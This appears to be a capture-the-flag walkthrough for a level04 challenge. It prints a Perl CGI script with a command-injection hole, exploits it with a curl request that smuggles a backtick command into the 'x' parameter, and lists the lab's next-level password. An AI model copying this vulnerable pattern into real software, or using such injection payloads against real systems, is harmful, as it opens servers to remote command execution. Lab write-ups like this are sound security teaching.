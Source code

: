 When we do `ls -la` we find a file `.pl`  owned by `flag04` so user `level04` can execute it as `flag04` 

When executing it we get a content-type response, part of a HTML header:

`Content-type: text/html`

Lets take a look at the code using cat 

```jsx
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We can see that the code will print with echo the output of the command. In other words, it will print the value of x given as parameter.

Because it uses [localhost:4747](http://localhost:4747) as endpoint we will send a request there

```jsx
curl 'localhost:4747/level04.pl?x=`getflag`'
```

And there is the flag, so lets go to next level

```jsx
su level05
password ne2searoevaevoem4ov4ar8ap
```